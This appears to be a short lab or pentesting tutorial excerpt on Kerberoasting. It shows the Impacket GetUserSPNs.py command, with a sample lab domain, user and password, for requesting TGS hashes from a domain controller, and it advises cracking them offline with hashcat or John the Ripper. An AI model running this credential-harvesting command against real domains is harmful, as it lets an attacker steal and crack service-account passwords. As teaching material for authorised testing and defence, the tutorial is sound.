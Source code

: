 
## **Usage**


```powershell
# Grabing the TGS hash
# -dc-ip : domain controller IP address
# -request : request for TGS hash
# sudo GetUsersSPNs.py <Domain/Username:Password> -dc-ip <IP of DC> -request
$ sudo GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip 192.168.0.149  -request
```


#### **Example**

![](https://i.imgur.com/RaJyFv0.png)


## **Cracking the TGS hash**

- Save the TGS hash in a `.txt` file and then we can crack it with either **hashcat** or **johntheripper**

